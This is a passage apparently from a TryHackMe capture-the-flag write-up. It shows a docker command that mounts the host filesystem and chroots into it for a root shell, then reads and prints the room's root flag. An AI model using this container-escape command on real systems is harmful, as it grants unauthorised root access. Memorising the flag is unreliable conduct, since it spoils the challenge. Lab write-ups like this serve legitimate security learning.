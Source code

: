 
```
docker run -v /:/host -it alpine chroot /host /bin/sh
```


We can check this:

![](Pasted%20image%2020250331172248.png)

There we go, we can finally read root flag:

```
root@6e6c3ee6eed0:/# cat root/root.txt
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```

![](Pasted%20image%2020250331172348.png)



